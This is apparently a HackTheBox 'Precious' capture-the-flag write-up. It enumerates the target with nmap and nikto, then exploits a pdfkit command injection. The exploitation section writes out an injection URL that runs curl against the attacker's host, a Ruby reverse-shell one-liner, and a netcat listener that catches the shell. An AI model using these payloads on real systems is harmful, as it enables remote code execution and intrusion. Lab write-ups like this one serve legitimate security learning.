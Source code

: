 # HackTheBox Precious Writeup

<!-- Description -->

![Precious](imgs/machine.png)

Completed on ??/??/20??
<!-- /Description -->

## Table of Contents

<!-- TOC -->
- [HackTheBox - Precious - WriteUp](#hackthebox-precious-writeup)
  - [Table of Contents](#table-of-contents)
  - [Let's Get Going!](#lets-get-going)
    - [Enumeration](#enumeration)
      - [Nmap Scan](#nmap-scan)
      - [HTTP - Port 80](#http---port-80)
    - [Exploitation](#exploitation)
    - [Post Exploitation](#post-exploitation)

<!-- /TOC -->

---

## Let's Get Going
Connect to HackTheBox network with openvpn and start scanning the machine.

### Enumeration
#### Nmap Scan
We start by running a nmap Syn Scan to find potentially open ports.
```bash
$ sudo nmap -sS -Pn -n -oN nmapss 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 13:10 EST
Nmap scan report for 10.10.11.189
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.33 seconds
```
Going further we can try to version scan the two open ports in order to get more details of what we are dealing with.
```bash
$ nmap -sV -Pn -n -oN nmapsv 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 13:06 EST
Nmap scan report for 10.10.11.189
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
So we got two open ports hosting a web app and a ssh server and we were able to determine services versions. 
For now we can continue with further scanning of each ports and finding out more about each service.

#### HTTP - Port 80
We can run now a nikto scan which runs automated scan on the web app to find more info about it.
```bash
$ nikto -h http://10.10.11.189:80/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.189
+ Target Hostname:    10.10.11.189
+ Target Port:        80
+ Start Time:         2023-01-24 14:37:03 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: http://precious.htb/
+ No CGI Directories found (use '-C all' to force check all possible dirs)

+ 7889 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2023-01-24 14:51:47 (GMT-5) (884 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nothing particularly interesting. We try now to visit the web app and see what's hosted.
Visiting $ip:80 returns an error.
The server returned 302 response to the browser and hence redirected it to the domain name precious.htb which couldn't be resolved.

![Precious](imgs/dnserror.png)

To solve that we must edit /etc/hosts file and add the resolution for the browser "$ip precious.htb".
Visiting precious.htb now returns successfully the web page.

![Precious](imgs/webpage.png)

At first glance, we notice one main functionality of this web app: URL to pdf. Checking Page Source and running directory fuzzing returns no other results at all.
So it seems we have to find out more about this functionality.
Sending as input any public URL returns the following error.

![Precious](imgs/interneterror.png)

So we can try setting up a local server on our machine and see if the remote server visits us.
We run the following command after creating a basic index.html file.
```bash
$ php -S 10.10.14.116:8000
[Tue Jan 24 15:05:45 2023] PHP 8.1.12 Development Server (http://10.10.14.116:8000) started
```
By inputting the address to our local server we get the visit!
```bash
[Tue Jan 24 15:07:26 2023] 10.10.11.189:51626 Accepted
[Tue Jan 24 15:07:26 2023] 10.10.11.189:51626 [200]: GET /
[Tue Jan 24 15:07:26 2023] 10.10.11.189:51626 Closing
```
On the other hand, in the browser, we get our pdf.

![Precious](imgs/receivedpdf.png)

Going further, we try to inspect the web page with Burp Suite. Upon requesting the root directory and intercepting the response we start getting more details.

![Precious](imgs/burpsuiteroot.png)

We can see the response header "X-Runtime" with the value "Ruby", hinting the backend could be written in the Ruby programming language. We can see aswell Phusion Passenger which is an app server that supports Ruby.
Great! We can continue now by inspecting the response of the web app to the URL input.

![Precious](imgs/burpsuiteresponse.png)

As we can see the response contains the generated pdf file. Going through its contents, we notice data refering to the tool that generated the pdf.

![Precious](imgs/pdfkit.png)

---

### Exploitation

#### Ruby PDFKit Command Injection
Searching through the internet about pdfkit v0.8.6, shows that it is actually a module in Ruby that generates PDFs from given URLs. Going further, we can find that the version used in our web app is old and critically vulnerable to command injection!
The injection works as follows: When user input (URL) gets passed to the application and if the provided URL's parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF/
```
http://10.10.14.116:8000/?c=%20`curl http://10.10.14.116:443/`
```
To verify if the above injection work, I setup a local php server on port 443 and passed the above input to the app. And to no surprise, the app did make the request to the server on port 443. 
```bash
$ php -S 10.10.14.116:443 
[Tue Jan 24 18:59:04 2023] PHP 8.1.12 Development Server (http://10.10.14.116:443) started
[Tue Jan 24 18:59:08 2023] 10.10.11.189:37630 Accepted
[Tue Jan 24 18:59:08 2023] 10.10.11.189:37630 [200]: GET /
[Tue Jan 24 18:59:08 2023] 10.10.11.189:37630 Closing
```

We can now attempt to spawn a reverse shell to access the machine. Using the [reverse shell generator](https://www.revshells.com/), we get our ruby payload, that we append to the URL.
```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.116",4242))'
```

We then setup our listener on port 4242 and send the payload to the server..

```bash
$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.116] from (UNKNOWN) [10.10.11.189] 52102
ls
app
config
config.ru
Gemfile
Gemfile.lock
pdf
public
```

And we are in!!

### Post Exploitation

---
